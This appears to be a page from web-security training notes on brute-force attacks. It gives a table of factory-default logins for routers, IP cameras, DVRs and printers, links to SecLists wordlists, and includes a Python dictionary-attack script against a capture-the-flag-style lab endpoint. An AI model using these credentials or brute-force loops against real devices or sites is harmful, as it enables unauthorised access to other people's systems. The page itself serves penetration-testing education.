 ```yaml
---
layout: default
title: Brute Force Attacks
permalink: /Web/brute_force/
---
```


## Default Passwords
Some examples of default passwords:
{% raw %}
| Device/Manufacturer    | Default Username | Default Password | Device Type                     |
|------------------------|------------------|------------------|---------------------------------|
| Linksys Router         | admin            | admin            | Wireless Router                 |
| D-Link Router          | admin            | admin            | Wireless Router                 |
| Netgear Router         | admin            | password         | Wireless Router                 |
| TP-Link Router         | admin            | admin            | Wireless Router                 |
| Cisco Router           | cisco            | cisco            | Network Router                  |
| Asus Router            | admin            | admin            | Wireless Router                 |
| Belkin Router          | admin            | password         | Wireless Router                 |
| Zyxel Router           | admin            | 1234             | Wireless Router                 |
| Samsung SmartCam       | admin            | 4321             | IP Camera                       |
| Hikvision DVR          | admin            | 12345            | Digital Video Recorder (DVR)   |
| Axis IP Camera         | root             | pass             | IP Camera                       |
| Ubiquiti UniFi AP      | ubnt             | ubnt             | Wireless Access Point           |
| Canon Printer          | admin            | admin            | Network Printer                 |
| Honeywell Thermostat   | admin            | 1234             | Smart Thermostat                |
| Panasonic DVR          | admin            | 12345            | Digital Video Recorder (DVR)   |
{% endraw %}
SecLists maintains a list of common usernames at [top-usernames-shortlist.txt](https://github.com/danielmiessler/SecLists/blob/master/Usernames/top-usernames-shortlist.txt).

## Utilizing Wordlists

- Publicly Available Lists: Repositories like [SecLists](https://github.com/danielmiessler/SecLists/tree/master/Passwords) offer various wordlists catering to various attack scenarios.
- Custom-Built Lists: We can craft our wordlists by leveraging information gleaned during reconnaissance.

Example python script for dictionary attack:
```
import requests

ip = "127.0.0.1"  # Change this to your instance IP address
port = 1234       # Change this to your instance port number

# Download a list of common passwords from the web and split it into lines
passwords = requests.get("https://raw.githubusercontent.com/danielmiessler/SecLists/refs/heads/master/Passwords/Common-Credentials/500-worst-passwords.txt").text.splitlines()

# Try each password from the list
for password in passwords:
    print(f"Attempted password: {password}")

    # Send a POST request to the server with the password
    response = requests.post(f"http://{ip}:{port}/dictionary", data={'password': password})

    # Check if the server responds with success and contains the 'flag'
    if response.ok and 'flag' in response.json():
        print(f"Correct password found: {password}")
        print(f"Flag: {response.json()['flag']}")
        break
```


